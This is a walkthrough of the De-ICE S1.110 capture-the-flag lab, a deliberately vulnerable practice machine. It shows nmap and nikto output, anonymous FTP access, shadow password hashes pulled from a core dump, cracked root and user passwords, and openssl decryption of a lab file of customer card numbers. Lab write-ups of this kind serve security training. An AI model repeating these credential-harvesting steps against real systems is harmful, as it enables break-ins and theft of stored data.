

# De-ICE: S1.110 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/de-ice-s1110,9/](https://www.vulnhub.com/entry/de-ice-s1110,9/)

> ## Scenario:  
> The scenario for this LiveCD is that a CEO of a small company has tasked you to do more extensive penetration testing of systems within his company. The network administrator has reconfigured systems within his network to meet tougher security requirements and expects you to fail any further penetration attempts. This system is an ftp server used by the network administrator team to create / reload systems on the company intranet. No classified or sensitive information should reside on this server. Through discussion with the administrator, you found out that this server had been used in the past to maintain customer information, but has been sanitized (as opposed to re-built).  
>
> Prove to the network administrator that proper system configuration is not the only thing critical in securing a server.  
> ## CONFIGURATION
>
> PenTest Lab Disk 1.110:  
>
> This LiveCD is configured with an IP address of 192.168.1.110 - no additional configuration is necessary.

---

# Stage 0: Preparation

Since the IP address of the Boot2Root VM is a static IP address of 192.168.1.100/24, we will need to change our IP address to match the subnet

`ifconfig eth0 192.168.1.101 netmask 255.255.255.0`

---

# Stage 1: Reconnaissance

Tools used:
* nmap

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.110 -T4

Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.100
Host is up (0.00044s latency).
Not shown: 992 filtered ports
PORT    STATE  SERVICE  VERSION
21/tcp  open  ftp        vsftpd 2.0.4
22/tcp  open  tcpwrapped
80/tcp  open  http       Apache httpd 2.2.4 ((Unix) mod_ssl/2.2.4 OpenSSL/0.9.8b DAV/2)
631/tcp open  ipp        CUPS 1.1
MAC Address: 08:00:27:BD:09:C1 (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.78 seconds

root@kali:~# ssh -V 192.168.1.110
OpenSSH_7.4p1 Debian-10, OpenSSL 1.0.2l  25 May 2017
```

So we have a FTP, SSH, and HTTP service running on the system.

---

# Stage 2: Enumeration

Tools used:
* nikto

```
root@kali:~# nikto -host 192.168.1.110
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.110
+ Target Hostname:    192.168.1.110
+ Target Port:        80
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.4 (Unix) mod_ssl/2.2.4 OpenSSL/0.9.8b DAV/2
+ Server leaks inodes via ETags, header found with file /, inode: 7118, size: 2036, mtime: Thu Sep 15 19:14:08 1977
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.4 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ OpenSSL/0.9.8b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.2.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ mod_ssl/2.2.4 OpenSSL/0.9.8b DAV/2 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ 8345 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT-4) (17 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Accessing the webpage gives us the following:



---

# Stage 3: Enumeration

Tools used:
* strings
* openssl

There are 3 possible users to enumerate, but I unable to do anything further with the website. Let's move on. Using the emails on the website, I tried the users `adamsa`, `banterb`, `coffeec` on the FTP server, but I was unable to get in. Trying `anonymous` login worked though:

```
root@kali:~# ftp 192.168.1.110
Connected to 192.168.1.110.
220 (vsFTPd 2.0.4)
Name (192.168.1.110:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    7 1000     513           160 Mar 15  2007 download
drwxrwxrwx    2 0        0              60 Feb 26  2007 incoming
226 Directory send OK.
ftp> cd download
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    6 1000     513           340 Mar 15  2007 etc
drwxr-xr-x    4 1000     513           100 Mar 15  2007 opt
drwxr-xr-x   10 1000     513           400 Mar 15  2007 root
drwxr-xr-x    5 1000     513           120 Mar 15  2007 usr
drwxr-xr-x    3 1000     513            80 Mar 15  2007 var
226 Directory send OK.
ftp> cd etc
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    4 1000     513           160 Mar 15  2007 X11
-rw-r--r--    1 1000     513        362436 Mar 03  2007 core
drwxr-xr-x    2 1000     513           100 Mar 15  2007 fonts
-rw-r--r--    1 1000     513           780 Apr 30  2005 hosts
-rw-r--r--    1 1000     513           718 Jul 03  2005 inputrc
-rw-r--r--    1 1000     513          1296 Jun 10  2006 issue
-rw-r--r--    1 1000     513           183 Jun 23  2005 lisarc
-rw-r--r--    1 1000     513            56 Oct 21  2004 localtime
lrwxrwxrwx    1 1000     513            23 Jan 05 02:31 localtime-copied-from -> /usr/share/zoneinfo/GMT
-rw-r--r--    1 1000     513         10289 Dec 31  2003 login.defs
-rw-r--r--    1 1000     513             1 Dec 31  2003 motd-slax
drwxr-xr-x    2 1000     513           100 Mar 15  2007 profile.d
drwxr-xr-x    2 1000     513           220 Mar 15  2007 rc.d
-rw-r--r--    1 1000     513           440 Jul 18  2006 shadow
226 Directory send OK.
ftp> get core
local: core remote: core
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for core (362436 bytes).
226 File send OK.
362436 bytes received in 0.01 secs (24.3928 MB/s)
```

Seems like there is a shadow file at `/download/etc/shadow` which is world-readable, but there's also `/download/etc/core` which is abnormally large so let's grab it.

```
root@kali:~# strings core
// output truncated
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::bin:*:9797:0:::::daemon:*:9797:0:::::adm:*:9797:0:::::lp:*:9797:0:::::sync:*:9797:0:::::shutdown:*:9797:0:::::halt:*:9797:0:::::mail:*:9797:0:::::news:*:9797:0:::::uucp:*:9797:0:::::operator:*:9797:0:::::games:*:9797:0:::::ftp:*:9797:0:::::smmsp:*:9797:0:::::mysql:*:9797:0:::::rpc:*:9797:0:::::sshd:*:9797:0:::::gdm:*:9797:0:::::pop:*:9797:0:::::nobody:*:9797:0:::::aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::
```

Using John the Ripper we find out the following passwords:

```
root:Complexity
bbanter:Zymurgy
```

Trying to login as root via SSH is denied by default, so we have to ssh in as `bbanter` then perform a `su - root` to root. Let us look for interesting files:

```
root@slax:~# ls -al /home/*
/home/aadams:
total 4
drwxr-xr-x 2 aadams users   80 Mar 15  2007 ./
drwxr-xr-x 8 root   root   140 Mar 15  2007 ../
-rw-r--r-- 1 aadams users 3729 Feb  4  2007 .screenrc

/home/bbanter:
total 4
drwxr-xr-x 2 bbanter users   80 Mar 15  2007 ./
drwxr-xr-x 8 root    root   140 Mar 15  2007 ../
-rw-r--r-- 1 bbanter users 3729 Feb  4  2007 .screenrc

/home/ccoffee:
total 4
drwxr-xr-x 2 ccoffee users   80 Mar 15  2007 ./
drwxr-xr-x 8 root    root   140 Mar 15  2007 ../
-rw-r--r-- 1 ccoffee users 3729 Feb  4  2007 .screenrc

/home/ftp:
total 0
drwxr-xr-x 4 root   root  80 Mar 15  2007 ./
drwxr-xr-x 8 root   root 140 Mar 15  2007 ../
drwxr-xr-x 7 aadams  513 160 Mar 15  2007 download/
drwxrwxrwx 2 root   root  80 Jan  5 02:48 incoming/

/home/root:
total 4
drwxr-xr-x 3 aadams  513  100 Mar 15  2007 ./
drwxr-xr-x 8 root   root  140 Mar 15  2007 ../
drwx------ 2 root   root  100 Mar 15  2007 .save/
-rw-r--r-- 1 aadams  513 3729 Feb 27  2007 .screenrc
```

Looking at the /home folder, there seems to be nothing standing out... Except the fact that there is another root directory in /home. The `.save/` folder looks interesting as well, let us take a closer look.

```
root@slax:~# ls -l /home/root/.save/
total 8
-r-x------ 1 root   root 198 Mar 13  2007 copy.sh*
-rw-r--r-- 1 aadams  513 560 Mar 13  2007 customer_account.csv.enc

root@slax:~# cat /home/root/.save/copy.sh 
#!/bin/sh
#encrypt files in ftp/incoming
openssl enc -aes-256-cbc -salt -in /home/ftp/incoming/$1 -out /home/root/.save/$1.enc -pass file:/etc/ssl/certs/pw
#remove old file
rm /home/ftp/incoming/$1
```

Seems like there is a `copy.sh` script that takes whatever there is in `/home/ftp/incoming/*` and encrypt it before saving it in the `.save` folder. The script also conveniently tells us where the password file is. Let us decrypt the file:

```
root@slax:~# openssl enc -d -aes-256-cbc -salt -in /home/root/.save/customer_account.csv.enc -out /home/root/.save/customer_account.csv -pass file:/etc/ssl/certs/pw

root@slax:~# cat customer_account.csv
root@slax:/home/root/.save# cat customer_account.csv
"CustomerID","CustomerName","CCType","AccountNo","ExpDate","DelMethod"
1002,"Mozart Exercise Balls Corp.","VISA","2412225132153211","11/09","SHIP"
1003,"Brahms 4-Hands Pianos","MC","3513151542522415","07/08","SHIP"
1004,"Strauss Blue River Drinks","MC","2514351522413214","02/08","PICKUP"
1005,"Beethoven Hearing-Aid Corp.","VISA","5126391235199246","09/09","SHIP"
1006,"Mendelssohn Wedding Dresses","MC","6147032541326464","01/10","PICKUP"
1007,"Tchaikovsky Nut Importer and Supplies","VISA","4123214145321524","05/08","SHIP"
```

Challenge completed!

---

# Lessons Learnt:
* If there is a `core` dumpfile existing on the remote server, it may contain something interesting. According to Wikipedia,

```
In computing, a core dump, memory dump, or system dump consists of the recorded state of the working memory of a computer program at a specific time, generally when the program has crashed or otherwise terminated abnormally. In practice, other key pieces of program state are usually dumped at the same time, including the processor registers, which may include the program counter and stack pointer, memory management information, and other processor and operating system flags and information. Core dumps are often used to assist in diagnosing and debugging errors in computer programs.
```